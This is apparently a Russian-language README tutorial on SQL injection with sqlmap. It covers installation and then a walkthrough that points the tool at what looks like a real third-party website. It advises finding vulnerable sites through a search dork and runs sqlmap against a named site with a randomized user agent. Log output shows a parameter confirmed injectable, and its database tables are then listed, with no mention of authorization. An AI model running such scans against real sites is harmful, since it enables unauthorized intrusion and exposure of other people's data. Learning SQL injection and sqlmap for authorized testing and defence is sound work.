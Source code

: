 # Предысловие
>Если не умру,буду дальше развивать эту тему

Идея которая пришла мне в голову,<<А почему бы не рассказать об уязвимостях SQL?>>.Поэтому я буду рассказывать о разных уязвимостях SQLInject и также демонстрировать их.Некоторая информация была взята из открытых источников,поэтому некоторые цитаты или словосочитания могу совпадать с некоторыми статьями или с wikipedia.

В папке exaple,будут лежать примеры скриптом связанные с SQL уязвимостями,если кому интересно можете их разобрать а также добавить свои <<Все комментария и замечание я буду читать>>

P.S Спасибо за понимание :>

## Что такое SQLInject?
SQLInject - это способ взлома сайта,работающий с базами данных,основанный на внедрении в запрос произвольного SQL-кода,атаки такого типа могут дать злоумышленнику
доступ к базе данных.

Например:

1.  Доступ к чтению и редактированию файлов 
2.  Внедрение своих скриптов 
3.  Выполнение произвольных команд на атакуемом сервере

Также хотел бы вас познакомить с инструментом **sqlmap**.Их домашняя страница <https://sqlmap.org/>.Мы будем разбирать работу с **sqlmap**,а так же его флаги,чтобы понять как пользоваться инструментом.

### Sqlmap
sqlmap - это инструмент с открытым исходным кодом для тестирования на проникновение, который автоматизирует процесс выявления и эксплуатации уязвимости SQL-инъекця и захват серверов баз данных. Он поставляется с мощным движком выявления и многими нишевыми функциями для конечного тестера на проникновение, имеет широкий набор возможностей, начиная от сбора отпечатков баз данных по полученной от них данным, до доступа к файловой системе и выполнения команд в операционной системе посредством внеполосных (out-of-band) подключений.

В sqlmap находится около 150 флагов,поэтому мы будем их разбирать походу нужды.

*Пример установки:*

1. Для Kali,Debian

На Kali Linux sqlmap установлен по умолчанию,для Debian установка выглядит следующим образом. 

```sh
git clone https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
cd sqlmap-dev/
./sqlmap.py --wizard
```

2.  Для Arch,Manjaro

```sh
Sudo pacman -S sqlmap
```
3. Для Windows

Для работы sqlmap нам потребуется python <https://www.python.org/>,там есть две ветви 3.* и 2.* для корректной работы нам нужна версия 2.* (На данный момент доступна версия 2.7.18),заходим на офицальный сайт sqlmap <https://sqlmap.org/> и скачиваем от туда .zip файл.

Теперь переходим в каталог с установленным Python (По дефолту он находится по пути C:\Python27\) и перетаскиваем его в окно командной строки,в командной строке должен появиться полный путь к файлу,после этого дописываем к нему флаг -v.

Если у вас появилась информация о версии Python значит установка прошла нормально.
После проверки открываем новую командную строку,распаковываем наш sqlmap,перетаскиваем файл python.exe в командную строку,ставим пробел и перетаскиваем наш sqlmap.py в командную строку,ставим пробел и пишим флаг -h.Должен получиться такой путь 

```sh
C:\Python27\python.exe C:\Users\User\Downloads\sqlmapproject-sqlmap-6cc092b\sqlmap.py -h
```

#### Пример использования 

Для начала работы с sqlmap нам нужно найти какой либо уязвимый сайт,ссылка сайта которая (возможного!!!) поддерживая уязвимости sqlinject выглядит следующим образом.Такие сайты можно найти по такому поисковому запросу (В будующем я буду пополнять ссылки).

Запрос:
```sh
index.php?id=1
```

Ссылка:
```sh
http://www.asfaa.org/members.php?id=1
```

Флаги которые используются в данном мануале:

```sh
-u URL,                 Целевой хост
-A --random-agent,      Использование значение заголовка User-Agent 
--tables,               Построить список таблиц
```


1. Сканнирование удалённой системы

В качастве примеры мы будем использовать этот сайт.

```sh
http://www.asfaa.org/members.php?id=1
```

Первая команда сканирует удаленную систему, чтобы увидеть, уязвима ли она для внедрения sql, а затем собирает информацию о ней. 


```sh
sqlmap -u http://www.asfaa.org/members.php?id=1 --random-agent
```

Вышеупомянутая первая и самая простая команда.Она проверяет входные параметры,чтобы определить,уязвимо ли она на внедрение sql или нет.Для этого sqlmap отправляет полезные-sql-нагрузки во входные параметры и проверяя выходные данные.

2.  Как мы видим sqlmap нашёл уязвимостей.

```sh
[INFO] testing 'Generic inline queries'
[INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[[INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[INFO] testing 'MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[INFO] testing 'MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)'
[INFO] testing 'MySQL OR error-based - WHERE or HAVING clause (FLOOR)'
[INFO] GET parameter 'id' is 'MySQL OR error-based - WHERE or HAVING clause (FLOOR)' injectable 
[INFO] testing 'MySQL inline queries'
[INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[WARNING] time-based comparison requires larger statistical model, please wait.. (done)                                                                                                               
[INFO] testing 'MySQL >= 5.0.12 stacked queries'
[INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
[INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
```

Второй командой мы будем искать таблицы базы,чтобы в дальнейшем смотреть их содержимое))

Запуск команды:

```sh
sqlmap -u http://www.asfaa.org/members.php?id=1 --tables  
```
Видим что есть несколько баз с данными

```sh
[INFO] fetching tables for databases: 'db83231_acolop, db83231_asfaa, information_schema'
```
